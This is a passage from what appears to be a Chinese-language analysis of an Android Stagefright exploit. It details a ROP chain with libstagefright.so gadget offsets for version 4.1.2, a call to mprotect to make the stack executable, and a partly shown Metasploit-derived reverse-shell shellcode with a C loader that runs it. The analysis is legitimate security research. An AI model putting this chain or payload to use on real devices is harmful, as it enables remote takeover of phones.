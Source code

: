 出栈操作；执行完后`sp=ROP+0xC`；`lr=0xb0002a98`；`pc=0xb00038b2+1`

**3）执行pc**

此时pc为0xb00038b2+1，基所指向的指令为：

```
pop {r0, r1, r2, r3, r4, pc}

```

将sp指向的栈弹出并存入到r0-r4及pc寄存器中，该条指令执行完后，r0=sp_addr & 0xFFFFF000，r1=0x1000，r2=7，pc=0xb001144。

该条指令可以libstagefright.so中找到。如在4.1.2下：thumb，libstagefright.so + 0x0009086C。

**4）再执行pc**

此时pc为0xb001144，该地址是mprotect函数的地址，位于libc.so中，代码如下：

```
.text:0000CACC                 EXPORT mprotect
.text:0000CACC                 STMFD           SP!, {R4,R7}
.text:0000CAD0                 MOV             R7, #0x7D
.text:0000CAD4                 SVC             0        ;超级用户调用
.text:0000CAD8                 LDMFD           SP!, {R4,R7}
.text:0000CADC                 MOVS            R0, R0
.text:0000CAE0                 BXPL            LR      
.text:0000CAE4                 B               sub_39D44

```

将sp_addr地址，长度为0x1000的内存改为可执行权限。

```
.text:0000CAE0                 BXPL            LR

```

如果执行成功则调用lr，即0xb0002a98。

**5）执行lr**

此时lr为0xb0002a98，其指向的指令如下：

```
pop {pc}

```

当前`sp=ROP+0x24`，执行完成后`pc=sa+0x80，即shell_reverse_tcp代码的地址。

该条指令可以libstagefright.so中找到。如在4.1.2下：thumb，libstagefright.so + 0x0005ad14。

**1.2 shell_reverse_tcp**

exploit代码看shell_reverse_tcp是反向连接到目标ip:port的一段payload，这段代码是从metasploit的`shell_reverse_tcp`[[3]](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/armle/shell_reverse_tcp.rb)修改而来的。为了搞清楚这段代码的功能，我们写了一段loader来加载这段代码，然后反汇编进行分析，如下：

```
unsignedchar payload[] = 
"\x02\x70\xa0\xe3"
……
"65\x6d\x2f\x62\x69\x6e\x3a\x2f\x73\x79\x73\x74\x65\x6d\x2f\x78\x62\x69\x6e\x00";
int loader()
{
printf("hello payload: 0x%x\n", payload);
asm__volatile__ (
"ldr r0, =payload \t\n"
"blx r0 \t\n");
return0;
}
int main(intargc, char* constargv[])
{
```